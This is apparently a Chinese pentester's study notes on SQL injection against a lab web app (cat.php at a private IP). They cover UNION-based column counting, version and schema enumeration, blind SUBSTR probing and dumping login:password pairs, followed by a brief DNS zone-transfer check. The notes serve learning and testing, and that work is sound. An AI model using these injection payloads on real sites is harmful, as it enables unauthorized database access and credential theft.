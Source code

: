 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据
- 4. 考虑无回显处理
- 5. 看是否可以获取shell

###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
concat()函数用于连接一行中的字段，显示效果还是会有多行，而 group_concat用于把所有字段的内容都显示成一个大字符串。
mysql> select concat(id,name) from table1;
+-----------------+
| concat(id,name) |
+-----------------+
| 1luyg           |
| 2lucy           |
+-----------------+

mysql> select group_concat(id,name) from table1;
+-----------------------+
| group_concat(id,name) |
+-----------------------+
| 1luyg,2lucy           |
+-----------------------+

- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列
- 3. select substr(table_name,17,1) from information_schema.tables limit 1;
  substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录
- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;
使用盲注方式：
http://172.16.45.128/cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'
如果返回正常代表表名的第一个字符是>'A'的
select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');
http://172.16.45.128/cat.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1

5. 获取字段
select column_name from information_schema.columns where table_name = 'users'

6. 获取数据
http://172.16.45.128/cat.php?id=1 union select 1,(select concat(login,':',password) from users),1,1


- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

